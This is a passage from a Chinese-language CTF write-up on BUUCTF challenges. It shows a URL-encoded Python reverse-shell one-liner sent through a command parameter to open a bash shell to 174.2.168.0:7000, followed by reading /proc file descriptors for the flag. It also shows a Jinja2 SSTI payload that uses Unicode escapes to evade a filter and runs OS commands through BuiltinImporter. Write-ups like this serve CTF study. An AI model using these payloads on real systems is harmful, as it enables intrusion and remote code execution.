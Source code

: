 ```
http://f2b62f37-fcc3-498b-9319-cadbe70f2479.node3.buuoj.cn/shell?c=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22174.2.168.0%22,7000));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
```

由于是buuctf上的题目，其环境都是内网，所以我们如果要反弹shell的话要开个内网靶机、IP为174.2.168.0，端口7000。

得到shell后，我们要对/proc/[pid]/fd/[id]进行遍历，由于有很多[pid]我们可以直接用来`*`代替，省的一步一步去找，我们可以用`cat /proc/*/fd/*`：

[![](https://p1.ssl.qhimg.com/t017927a11071bc9133.png)](https://p1.ssl.qhimg.com/t017927a11071bc9133.png)

得到flag。



## [pasecactf_2019]flask_ssti

题目给了提示，一段代码：

```
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W34', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT5')
```

进入题目，是一个输入框，输入你的名字然后输出：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01ecfda5f491e7c331.png)

经测试存在SSTI漏洞：

[![](https://p1.ssl.qhimg.com/t01924d8c5b4b77738b.png)](https://p1.ssl.qhimg.com/t01924d8c5b4b77738b.png)

经测试，过滤了一下字符。

话不多少，直接使用Unicode编码绕过，给出payload：

```
`{``{`()["\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f"]["\u005f\u005f\u0062\u0061\u0073\u0065\u0073\u005f\u005f"][0]["\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f"]()[80]["\u006c\u006f\u0061\u0064\u005f\u006d\u006f\u0064\u0075\u006c\u0065"]("os")["popen"]("ls /")|attr("read")()`}``}`
# 用&lt;class '_frozen_importlib.BuiltinImporter'&gt;这个去执行命令

"""
`{``{`()["__class__"]["__bases__"][0]["__subclasses__"]()[80]["load_module"]("os")["system"]("ls")`}``}`
# 用&lt;class '_frozen_importlib.BuiltinImporter'&gt;这个去执行命令
"""
```
